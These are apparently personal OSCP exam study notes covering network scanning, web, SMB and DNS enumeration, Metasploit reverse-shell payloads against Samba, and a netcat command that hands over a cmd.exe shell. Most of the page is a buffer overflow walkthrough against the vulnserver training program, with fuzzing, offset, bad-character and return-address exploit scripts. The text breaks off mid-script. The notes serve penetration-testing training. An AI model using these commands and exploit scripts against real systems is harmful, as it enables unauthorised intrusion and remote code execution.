


### OSCP Exam now has some major changes .... Those are -

**OSCP Notes**

*NetDiscover*

find out the ip of the machine in the network

    netdiscover -i  eth1

    netdiscover -r 192.168.134.0/24

*ARP Scan*

    arp-scan --local

*Ping Sweep*

    namp -v -sn 10.11.1.1-254 -oG ping sweep.txt
    grep Up ping-sweep.txt | cut -d “ ” -f 2

**Find ports**

*Fast UDP*

    nmap -Pn --top-ports 1000 -sU --stats-every 3m --max-retries 1 -T3 -oN /root/result.txt <ip>

    -sU                         UDP Scan

*Shell Script*

    #!/bin/bash
    if [ "$1" == "" ] || [ "$2" == "" ]; then
            echo "Arguments missing usage: <target_ip> <path to log>"
            exit 0
    fi
    sudo nmap -Pn --top-ports 1000 -sU --stats-every 3m --max-retries 1 -T3 -oN $2 $1

*TLS intensive* 

    nmap -Pn -sS --stats-every 3m --max-retries 1 --max-scan-delay 20 --defeat-rst-ratelimit -T4 -p1-65535 -oN /root/desktop/result.txt <ip>

    -Pn                         Do not ping the host
    -sS                         Stealth Scan
    --stats-every 3m            Every 3 Min information should come back
    --max-retries 1             Only try once
    --max-scan-delay 20         nmap should wait a specific time - avoid rait limit
    --defeat-rst-ratelimit      don't send ack just send rst to much ack can trigger rait limit - for filtered ports
    -T4                         Intesitiy of 4
    -p1-65535                   scan all ports
    -oN <where to save it>      save the result to a specific file
    <ip>                        ip e.g.
    
*Shell Script*

    #!/bin/bash
    if [ "$1" == "" ] || [ "$2" == "" ]; then
            echo "Arguments missing usage: <target_ip> <path to log>"
            exit 0
    fi
    sudo nmap -Pn -sS --stats-every 3m --max-retries 1 --max-scan-delay 20 --defeat-rst-ratelimit -T4 -p1-65535 -oN $2 $1

*Specific Ports Scan*

    nmap -Pn -nvv -p 22,80,8080 --version-intensity 9 -A -oN /home/kali/Desktop/result.txt <ip>

    -nvv 
    -Pn
    -p 22,80,111,139
    --version intensity 9 
    -A
    -oN /root/result.txt
    <ip>

*Shell Script*

    #!/bin/bash
    if [ "$1" == "" ] || [ "$2" == "" ] || [ "$3" == "" ]; then
            echo "Arguments missing usage: <target_ip> <ports to scan e.g: 80,443> <path to log>"
            exit 0
    fi
    sudo nmap -Pn -nvv -p $2 --version-intensity 9 -A -oN $3 $1

**Enumeration**

All kind of enumeration topics

*Curl the page*

    curl -v -X Options <ip>

**Search for Directories**

*dirb*

    dirb <url>

*dirbuster - with UI*

    dirbuster

Good to download a wordlist from github
take a big one and remove "manual"

*gobuster*

    gobuster dir -u <ip> -w /usr/share/wordlists/x

**Enumeration**

*Wordpress Scan*

Plugins are having the potential of beeing outdated.

    wpscan --url <url> --enumerate ap,at,cd,dbe
    ap - include all Plugins
    at - include all themes
    cb - include all coonfig backups
    dbe - database exports

Check WP Logins by dir

    wpscan --url <url> --passwords /location/of/wordlist --usernames <name>

*analysis for vulnerabilities*

    nikto -h <ip> + port :80 or :443 

*SMB Enumeration*

    enum4linux -> 
        SMB Client 
        RPC Client
        NAT and MB Lookup

Has config bug
    locate smb.conf
    vim smb.conf

    under global add:
    client use spnego = no
    client ntlmv2 auth = no

*enum4linux <ip>*

find out SAMBA Version

    msfconsole
    search smb

search for an auxiliary scanner for smb with meatsploit

    use auxiliary/scanner/smb/smb_version
    put info - includes show options
    set rhost <ip>
    exploit
    --> gives you the version

    searchsploit samba 2.2
    see exploits compare them to exploit-db

    nbtscan <ip> - gives you basic info like NetBIOS Name

    smbclient -L <ip>

SAMBA is a good source for exploits

*Mount SMB share*

https://unix.stackexchange.com/questions/387468/mounting-a-windows-shared-drive-to-kali-linux 

to understand what shares are available

    smbclient -L hostname -I <ip>

to mount the folder

    mount //<ip>/<sharename> /media/<local_name> -o username=user

*Gaining Root with Metasploit*

    msfconsole
    search trans2open - use linux version
    show targets - there can be a lot of them
    show Options - to see the payload
    
If a static payload is set (to be seen by / in the path it can maybe not work).
Solution is to replace that with a generic payload.
https://blog.rapid7.com/2015/03/25/stageless-meterpreter-payloads/ 

Generic (non staged):

    set payload generic/shell_reverse_tcp

Staged:

    set payload generic/shell/reverse_tcp
    
exploit maybe leads to success
If it fails first try is the payload, then maybe it is the port. 

**DNS Enumeration**

*zonetransfer*

DNS Server

    host -t ns zonetransfer.me

Mail Server

    host -t mx zonetransfer.me

Host Information

    host zonetransfer.me

Zonetransfer information

    host -l zonetransfer.me <name server>

gives you unique dns/ip addresses

*dnsrecon*

    dnsrecon -d zonetransfer.me -t axfr
    axfr - for Zonetransfer

*dnsenum*

    dnsenum zonetransfer.me

its more clean and faster as the other ones

**other types**

    -FTP
    -SNMP
    -SMTP

**NetCat**

try connect to an open port
    
    nc -nv <ip> <port>

listening shell

    nc -nvlp <port>

connect

    nc -nv <ip> <port> -e cmd.exe
    -e execute

**Buffer Overflow**

**Basic**

*Overview*

    Kernel      Top         0xffff
    Stack                               is going down
    Heap                                is going up
    Data
    Text        Button      0000

*Stack*

    ESP (Extended Stack Pointer)                            Top                     
    Buffer Space                                                                
    EBP (Extended Base Pointer)                             Base (B for Base)     
    EIP (Extended instrctuon Pointer) / Return Address                              

Buffer Space goes down. If there an input validation is wrong the EBP and EIP can be reached
Fill the Buffer Space up with x41 (A) x42 (B)

**Creation**

*Fuzzing*

A programm that is not properly sanitized will crash if it receives to many bytes.

To Download

    vulnserver
    Immunity Debugger

First try with fuzzing to find the len of the statement that causes a crash.

*fuzzer script*

    #!/user/bin/python3
    import socket

    vulnserverHost = "192.168.178.60"
    vulserverDefaultPort = 9999
    buffer = ["A"]
    counter = 100
    while len(buffer) <= 30:
        buffer.append("A" * counter)
        counter = counter + 200

    for string in buffer:
        print("Fuzzing vulnserver with bytes: " + str(len(string)))
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        connect = s.connect((vulnserverHost, vulserverDefaultPort))
        s.send(('TRUN /.:/' + string).encode())
        s.close()

AF_INET meas IPv4
TRUN is used vulnerable to Bufferoverflow
vulserver has a lot of options that go further

*fuzzing analysis*

open or attach vulnserver in immunity debugger

    ESP is the TOP
    EBP is the BUTTOM
    EIP is the POINTER

The goal is to overwrite the EIP address to point to mallicious code

Try fuzzer again. Debugger will give out an access violation EIP is overwritte with "41414141" so with buzzing reached there and has it overwritten

**Finding the Offset**

*Pattern create*

That is a metasploit module which will generate a sequence that has the requested size

    /usr/share/metasploit-framework/tools/exploit/pattern_create.rb - l 5900

    l - length

5900 bytes is used because that was the amount that caused the crash while fuzzing

*Create Pattern Script*

    #!/user/bin/python3
    import socket

    vulnserverHost = "192.168.178.60"
    vulserverDefaultPort = 9999

    shellcode = 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0Bp1Bp2Bp3Bp4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2Br3Br4Br5Br6Br7Br8Br9Bs0Bs1Bs2Bs3Bs4Bs5Bs6Bs7Bs8Bs9Bt0Bt1Bt2Bt3Bt4Bt5Bt6Bt7Bt8Bt9Bu0Bu1Bu2Bu3Bu4Bu5Bu6Bu7Bu8Bu9Bv0Bv1Bv2Bv3Bv4Bv5Bv6Bv7Bv8Bv9Bw0Bw1Bw2Bw3Bw4Bw5Bw6Bw7Bw8Bw9Bx0Bx1Bx2Bx3Bx4Bx5Bx6Bx7Bx8Bx9By0By1By2By3By4By5By6By7By8By9Bz0Bz1Bz2Bz3Bz4Bz5Bz6Bz7Bz8Bz9Ca0Ca1Ca2Ca3Ca4Ca5Ca6Ca7Ca8Ca9Cb0Cb1Cb2Cb3Cb4Cb5Cb6Cb7Cb8Cb9Cc0Cc1Cc2Cc3Cc4Cc5Cc6Cc7Cc8Cc9Cd0Cd1Cd2Cd3Cd4Cd5Cd6Cd7Cd8Cd9Ce0Ce1Ce2Ce3Ce4Ce5Ce6Ce7Ce8Ce9Cf0Cf1Cf2Cf3Cf4Cf5Cf6Cf7Cf8Cf9Cg0Cg1Cg2Cg3Cg4Cg5Cg6Cg7Cg8Cg9Ch0Ch1Ch2Ch3Ch4Ch5Ch6Ch7Ch8Ch9Ci0Ci1Ci2Ci3Ci4Ci5Ci6Ci7Ci8Ci9Cj0Cj1Cj2Cj3Cj4Cj5Cj6Cj7Cj8Cj9Ck0Ck1Ck2Ck3Ck4Ck5Ck6Ck7Ck8Ck9Cl0Cl1Cl2Cl3Cl4Cl5Cl6Cl7Cl8Cl9Cm0Cm1Cm2Cm3Cm4Cm5Cm6Cm7Cm8Cm9Cn0Cn1Cn2Cn3Cn4Cn5Cn6Cn7Cn8Cn9Co0Co1Co2Co3Co4Co5Co6Co7Co8Co9Cp0Cp1Cp2Cp3Cp4Cp5Cp6Cp7Cp8Cp9Cq0Cq1Cq2Cq3Cq4Cq5Cq6Cq7Cq8Cq9Cr0Cr1Cr2Cr3Cr4Cr5Cr6Cr7Cr8Cr9Cs0Cs1Cs2Cs3Cs4Cs5Cs6Cs7Cs8Cs9Ct0Ct1Ct2Ct3Ct4Ct5Ct6Ct7Ct8Ct9Cu0Cu1Cu2Cu3Cu4Cu5Cu6Cu7Cu8Cu9Cv0Cv1Cv2Cv3Cv4Cv5Cv6Cv7Cv8Cv9Cw0Cw1Cw2Cw3Cw4Cw5Cw6Cw7Cw8Cw9Cx0Cx1Cx2Cx3Cx4Cx5Cx6Cx7Cx8Cx9Cy0Cy1Cy2Cy3Cy4Cy5Cy6Cy7Cy8Cy9Cz0Cz1Cz2Cz3Cz4Cz5Cz6Cz7Cz8Cz9Da0Da1Da2Da3Da4Da5Da6Da7Da8Da9Db0Db1Db2Db3Db4Db5Db6Db7Db8Db9Dc0Dc1Dc2Dc3Dc4Dc5Dc6Dc7Dc8Dc9Dd0Dd1Dd2Dd3Dd4Dd5Dd6Dd7Dd8Dd9De0De1De2De3De4De5De6De7De8De9Df0Df1Df2Df3Df4Df5Df6Df7Df8Df9Dg0Dg1Dg2Dg3Dg4Dg5Dg6Dg7Dg8Dg9Dh0Dh1Dh2Dh3Dh4Dh5Dh6Dh7Dh8Dh9Di0Di1Di2Di3Di4Di5Di6Di7Di8Di9Dj0Dj1Dj2Dj3Dj4Dj5Dj6Dj7Dj8Dj9Dk0Dk1Dk2Dk3Dk4Dk5Dk6Dk7Dk8Dk9Dl0Dl1Dl2Dl3Dl4Dl5Dl6Dl7Dl8Dl9Dm0Dm1Dm2Dm3Dm4Dm5Dm6Dm7Dm8Dm9Dn0Dn1Dn2Dn3Dn4Dn5Dn6Dn7Dn8Dn9Do0Do1Do2Do3Do4Do5Do6Do7Do8Do9Dp0Dp1Dp2Dp3Dp4Dp5Dp6Dp7Dp8Dp9Dq0Dq1Dq2Dq3Dq4Dq5Dq6Dq7Dq8Dq9Dr0Dr1Dr2Dr3Dr4Dr5Dr6Dr7Dr8Dr9Ds0Ds1Ds2Ds3Ds4Ds5Ds6Ds7Ds8Ds9Dt0Dt1Dt2Dt3Dt4Dt5Dt6Dt7Dt8Dt9Du0Du1Du2Du3Du4Du5Du6Du7Du8Du9Dv0Dv1Dv2Dv3Dv4Dv5Dv6Dv7Dv8Dv9Dw0Dw1Dw2Dw3Dw4Dw5Dw6Dw7Dw8Dw9Dx0Dx1Dx2Dx3Dx4Dx5Dx6Dx7Dx8Dx9Dy0Dy1Dy2Dy3Dy4Dy5Dy6Dy7Dy8Dy9Dz0Dz1Dz2Dz3Dz4Dz5Dz6Dz7Dz8Dz9Ea0Ea1Ea2Ea3Ea4Ea5Ea6Ea7Ea8Ea9Eb0Eb1Eb2Eb3Eb4Eb5Eb6Eb7Eb8Eb9Ec0Ec1Ec2Ec3Ec4Ec5Ec6Ec7Ec8Ec9Ed0Ed1Ed2Ed3Ed4Ed5Ed6Ed7Ed8Ed9Ee0Ee1Ee2Ee3Ee4Ee5Ee6Ee7Ee8Ee9Ef0Ef1Ef2Ef3Ef4Ef5Ef6Ef7Ef8Ef9Eg0Eg1Eg2Eg3Eg4Eg5Eg6Eg7Eg8Eg9Eh0Eh1Eh2Eh3Eh4Eh5Eh6Eh7Eh8Eh9Ei0Ei1Ei2Ei3Ei4Ei5Ei6Ei7Ei8Ei9Ej0Ej1Ej2Ej3Ej4Ej5Ej6Ej7Ej8Ej9Ek0Ek1Ek2Ek3Ek4Ek5Ek6Ek7Ek8Ek9El0El1El2El3El4El5El6El7El8El9Em0Em1Em2Em3Em4Em5Em6Em7Em8Em9En0En1En2En3En4En5En6En7En8En9Eo0Eo1Eo2Eo3Eo4Eo5Eo6Eo7Eo8Eo9Ep0Ep1Ep2Ep3Ep4Ep5Ep6Ep7Ep8Ep9Eq0Eq1Eq2Eq3Eq4Eq5Eq6Eq7Eq8Eq9Er0Er1Er2Er3Er4Er5Er6Er7Er8Er9Es0Es1Es2Es3Es4Es5Es6Es7Es8Es9Et0Et1Et2Et3Et4Et5Et6Et7Et8Et9Eu0Eu1Eu2Eu3Eu4Eu5Eu6Eu7Eu8Eu9Ev0Ev1Ev2Ev3Ev4Ev5Ev6Ev7Ev8Ev9Ew0Ew1Ew2Ew3Ew4Ew5Ew6Ew7Ew8Ew9Ex0Ex1Ex2Ex3Ex4Ex5Ex6Ex7Ex8Ex9Ey0Ey1Ey2Ey3Ey4Ey5Ey6Ey7Ey8Ey9Ez0Ez1Ez2Ez3Ez4Ez5Ez6Ez7Ez8Ez9Fa0Fa1Fa2Fa3Fa4Fa5Fa6Fa7Fa8Fa9Fb0Fb1Fb2Fb3Fb4Fb5Fb6Fb7Fb8Fb9Fc0Fc1Fc2Fc3Fc4Fc5Fc6Fc7Fc8Fc9Fd0Fd1Fd2Fd3Fd4Fd5Fd6Fd7Fd8Fd9Fe0Fe1Fe2Fe3Fe4Fe5Fe6Fe7Fe8Fe9Ff0Ff1Ff2Ff3Ff4Ff5Ff6Ff7Ff8Ff9Fg0Fg1Fg2Fg3Fg4Fg5Fg6Fg7Fg8Fg9Fh0Fh1Fh2Fh3Fh4Fh5Fh6Fh7Fh8Fh9Fi0Fi1Fi2Fi3Fi4Fi5Fi6Fi7Fi8Fi9Fj0Fj1Fj2Fj3Fj4Fj5Fj6Fj7Fj8Fj9Fk0Fk1Fk2Fk3Fk4Fk5Fk6Fk7Fk8Fk9Fl0Fl1Fl2Fl3Fl4Fl5Fl6Fl7Fl8Fl9Fm0Fm1Fm2Fm3Fm4Fm5Fm6Fm7Fm8Fm9Fn0Fn1Fn2Fn3Fn4Fn5Fn6Fn7Fn8Fn9Fo0Fo1Fo2Fo3Fo4Fo5Fo6Fo7Fo8Fo9Fp0Fp1Fp2Fp3Fp4Fp5Fp6Fp7Fp8Fp9Fq0Fq1Fq2Fq3Fq4Fq5Fq6Fq7Fq8Fq9Fr0Fr1Fr2Fr3Fr4Fr5Fr6Fr7Fr8Fr9Fs0Fs1Fs2Fs3Fs4Fs5Fs6Fs7Fs8Fs9Ft0Ft1Ft2Ft3Ft4Ft5Ft6Ft7Ft8Ft9Fu0Fu1Fu2Fu3Fu4Fu5Fu6Fu7Fu8Fu9Fv0Fv1Fv2Fv3Fv4Fv5Fv6Fv7Fv8Fv9Fw0Fw1Fw2Fw3Fw4Fw5Fw6Fw7Fw8Fw9Fx0Fx1Fx2Fx3Fx4Fx5Fx6Fx7Fx8Fx9Fy0Fy1Fy2Fy3Fy4Fy5Fy6Fy7Fy8Fy9Fz0Fz1Fz2Fz3Fz4Fz5Fz6Fz7Fz8Fz9Ga0Ga1Ga2Ga3Ga4Ga5Ga6Ga7Ga8Ga9Gb0Gb1Gb2Gb3Gb4Gb5Gb6Gb7Gb8Gb9Gc0Gc1Gc2Gc3Gc4Gc5Gc6Gc7Gc8Gc9Gd0Gd1Gd2Gd3Gd4Gd5Gd6Gd7Gd8Gd9Ge0Ge1Ge2Ge3Ge4Ge5Ge6Ge7Ge8Ge9Gf0Gf1Gf2Gf3Gf4Gf5Gf6Gf7Gf8Gf9Gg0Gg1Gg2Gg3Gg4Gg5Gg6Gg7Gg8Gg9Gh0Gh1Gh2Gh3Gh4Gh5Gh6Gh7Gh8Gh9Gi0Gi1Gi2Gi3Gi4Gi5Gi6Gi7Gi8Gi9Gj0Gj1Gj2Gj3Gj4Gj5Gj6Gj7Gj8Gj9Gk0Gk1Gk2Gk3Gk4Gk5Gk6Gk7Gk8Gk9Gl0Gl1Gl2Gl3Gl4Gl5Gl6Gl7Gl8Gl9Gm0Gm1Gm2Gm3Gm4Gm5Gm6Gm7Gm8Gm9Gn0Gn1Gn2Gn3Gn4Gn5Gn6Gn7Gn8Gn9Go0Go1Go2Go3Go4Go5Go6Go7Go8Go9Gp0Gp1Gp2Gp3Gp4Gp5Gp6Gp7Gp8Gp9Gq0Gq1Gq2Gq3Gq4Gq5Gq6Gq7Gq8Gq9Gr0Gr1Gr2Gr3Gr4Gr5Gr6Gr7Gr8Gr9Gs0Gs1Gs2Gs3Gs4Gs5Gs6Gs7Gs8Gs9Gt0Gt1Gt2Gt3Gt4Gt5Gt6Gt7Gt8Gt9Gu0Gu1Gu2Gu3Gu4Gu5Gu6Gu7Gu8Gu9Gv0Gv1Gv2Gv3Gv4Gv5Gv6Gv7Gv8Gv9Gw0Gw1Gw2Gw3Gw4Gw5Gw6Gw7Gw8Gw9Gx0Gx1Gx2Gx3Gx4Gx5Gx6Gx7Gx8Gx9Gy0Gy1Gy2Gy3Gy4Gy5Gy6Gy7Gy8Gy9Gz0Gz1Gz2Gz3Gz4Gz5Gz6Gz7Gz8Gz9Ha0Ha1Ha2Ha3Ha4Ha5Ha6Ha7Ha8Ha9Hb0Hb1Hb2Hb3Hb4Hb5Hb6Hb7Hb8Hb9Hc0Hc1Hc2Hc3Hc4Hc5Hc6Hc7Hc8Hc9Hd0Hd1Hd2Hd3Hd4Hd5Hd6Hd7Hd8Hd9He0He1He2He3He4He5He6He7He8He9Hf0Hf1Hf2Hf3Hf4Hf5Hf6Hf7Hf8Hf9Hg0Hg1Hg2Hg3Hg4Hg5Hg6Hg7Hg8Hg9Hh0Hh1Hh2Hh3Hh4Hh5Hh6Hh7Hh8Hh9Hi0Hi1Hi2Hi3Hi4Hi5Hi6Hi7Hi8Hi9Hj0Hj1Hj2Hj3Hj4Hj5Hj6Hj7Hj8Hj9Hk0Hk1Hk2Hk3Hk4Hk5Hk6Hk7Hk8Hk9Hl0Hl1Hl2Hl3Hl4Hl5Hl6Hl7Hl8Hl9Hm0Hm1Hm2Hm3Hm4Hm5Hm6Hm7Hm8Hm9Hn0Hn1Hn2Hn3Hn4Hn5Hn6Hn7Hn8Hn9Ho0Ho1Ho2Ho3Ho4Ho5Ho'

    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        connect = s.connect((vulnserverHost, vulserverDefaultPort))
        s.send(('TRUN /.:/' + shellcode).encode())
    except:
        print("check debugger")
    finally:
        s.close()

*find the offset*

Save the resulting EIP from immunity Debugger after crash

    EIP 386F4337

Now try to put that into the offset

    /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 5900 -q 386F4337
    l - length
    q - EIP value

That gives an exact match at offset 2003 bytes

**Overwriting the EIP**

Try to overwrite the EIP with 4xB (0x42) controlled

    #!/user/bin/python3
    import socket

    vulnserverHost = "192.168.178.60"
    vulnserverDefaultPort = 9999

    shellcode = "A" * 2003 + "B" * 4

    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        connect = s.connect((vulnserverHost, vulnserverDefaultPort))
        s.send(('TRUN /.:/' + shellcode).encode())
    except:
        print("check debugger")
    finally:
        s.close()

Immunity Debugger should look point should 42424242 for EIP

**Finding Bad Characters**

NULL Byte is always bad.

Getting a list:
https://bulbsecurity.com/finding-bad-characters-with-immunity-debugger-and-mona-py/ 

Remove the \x00 from the list as it is the NULL Byte

Add the Badchars to the shellcode

    #!/user/bin/python3
    import socket

    vulnserverHost = "192.168.56.1"

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    badchars = (
        "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
        "\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
        "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
        "\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
        "\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
        "\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
        "\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
        "\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

    shellcode = "A" * 2003 + "B" * 4 + badchars

    try:
        connect = s.connect((vulnserverHost, 9999))
        s.send(('TRUN /.:/' + shellcode).encode())
    except:
        print("check debugger")

    s.close()

Immunity Debugger - click on ESP - follow in Dump
This has a pattern of counting up. 
After 42424242 search in the badchars if anything is missing in the list.
If anything is missing or wrong that is a bad character. 
Go through and note all the bad characters.
Vulnserver only has the null byte as bad char.

**Finding the Right Module**

*Mona*

 Download mona module

 https://github.com/corelan/mona 

 put mona.py into immunity debugger/PyCommands folder.

 Search in Immunity Debugger

    !mona modules

Look in the module info table for all "false" entries. 
In best case the exe itself has false everywhere.
Otherwise it should be a dll.

ASLR would randomize the base address on every start on the system.

    essfunc.ddl

Go to Kali and look for the upcode equivalent (convert Assembly language in HEX Code)

    /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
    in Nasm shell:
        JMP ESP 
    gives you *FFE4*
    (result is always the same)

Go back to immunity debugger

    !mona find -s "\xff\xe4" -m essfunc.dll

    -s upcode equivialent 
    -m module to use

That gives you a list of possible return addresses (the address cannot contain any of the already found bad characters e.g start with 0x0062XXX)

    0x625011af

Put a Breakpoint at the memory adress in order to test it with the module.

Back to Kali to write the actual expoit
the address has to be written backwards (little endian byte order) 
http://en.wikipedia.org/wiki/Endianness
Generally speaking, the format used to store addresses in memory depends on the archtiecture of running OS.
Lillte endian is currently the most widly-used format.

Because the low memory byte is stored in the lowest adress in x64 architecture and the high order byte is the highest address

    #!/user/bin/python
    import socket

    vulnserverHost = "192.168.178.60"
    vulnserverDefaultPort = 9999
    shellcode = b"A" * 2003 + b"\xaf\x11\x50\x62"

    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        connect = s.connect((vulnserverHost, vulnserverDefaultPort))
